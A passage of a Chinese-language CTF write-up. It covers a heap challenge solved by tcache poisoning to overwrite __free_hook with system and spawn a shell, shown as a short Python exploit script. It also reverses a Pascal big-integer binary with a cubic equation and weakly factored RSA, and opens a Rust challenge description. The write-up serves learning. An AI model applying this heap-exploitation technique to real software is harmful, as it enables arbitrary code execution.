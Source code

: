 拿到LIBC就可以做tcache poisoning打__free_hook了，直接参考how2heap，free两个到tcache里，改第二个块的地址到目标位置，然后malloc两次就到了。

不过这二叉树确实比较迷惑，因为double free之后下面的节点处于失联状态，很可能导致double free之后，提前布置的要改的堆块找不到。我也不太想跟二叉树较劲了，就结合调试结果多试了几次，试出了这套能用的key。

```py
# do a simple tcache poisoning with fresh start
# tcache=1 (rnext of key=23)
remove(21)
insert(9, 0x38, b'\n')
# insert(13, 0x18, b'\n')
remove(20)
# double free again
remove(23)

edit(9, p64(LIBC + free_hook_offset) + p64(0) + b'\n')
insert(13, 0x38, p64(LIBC + libc.functions['system'].address) + b'\n')

# get shell nerd :>
insert(0, 0x18, b'/bin/sh;\n')
remove(0)
```

### 大整数类
我一直都不怎么会逆向，这个算是为数不多我逆出来的，把三分逆七分猜的原则贯彻到极致。

看strings能知道这个是FPC编译的，也就是Pascal。同样看strings能找到主函数，位于0x4019b0。然后大致先分辨出某些函数是readline，哪些是puts。

通过看.rodata的字符串，我们会发现这些字符串不是标准C字符串，第一个字节表示了字符串长度，后面的才是内容。

然后我们会关注到0x401770这个函数，取了local_12cc这个栈地址和一个字符串。通过gdb动态调试，我们会发现local_12cc经过这个函数后变成了一个int数组，第一个数明显很大，后面的数都在0-9之间。所以很容易猜到第一个数是十进制总位数，后面的是每一位。这对应了题干说的大整数类的数据结构，如果最多1200个整数位，那么大小确实就是`sizeof(int) * (1200 + 1)`

然后在0x401770内部，有0x401360, 0x4016c0, 0x401150三个函数，都是以这种整数类数组做参数，并且都是三个参数。我们可以gdb单步stepover这个函数，对比前后三个大整数的结果，容易理解这三个函数分别是小整数乘、小整数转换为大整数和大整数加。也因此我们知道了0x401770函数的功能，是把一串ASCII字符串按0x80进制转换为十进制大整数。基于同样的动态方法我们会在后面识别出0x401450是大整数乘，0x4015c0是大整数取余。

接下来我们要正式开始处理flag的逻辑了：

flag1部分会把输入分成三段（0x407000是个类似strncpy的函数），转换成三个大整数，这三个大整数需要同时通过0x401850这个函数的检查。那个函数内部其实是构造了一个三次方程`(X**2 + A) * X == (X**2 * B + C)`，那么我们是需要求这个方程的三个整数解。最简单的方法是根据韦达定理，把C做个因式分解，factordb可以直接出结果。然后尝试C的各个因数是否会是原始三次方程的解。这里不能用卡尔丹公式，因为浮点数误差是很大的。

flag2部分则是会把输入进行多次自乘运算再取余数。最后算下来大概是取了65537次方。那这很明显就是在做RSA加密了。还是尝试把模数N放进factordb里，结果直接分解出来了，原来两个因数其实离得很近。

### 完美的代码（P2 flag1）

> 首先，我不会rust

这个题看代码主要是三个功能：

- 创建堆内存，看起来选项很多实际只能创建数个1KB的`BoxedData`，可以选类型为`ReadOnly`,`WriteOnly`,`ReadWrite`
- 读取，可以读取特定index的一个字节。index可以输入任意uint64，但是后面都会有检查（根据调用方法不同检查会在不同位置）
- 写入，可以写入特定index一个字节，跟读取类似
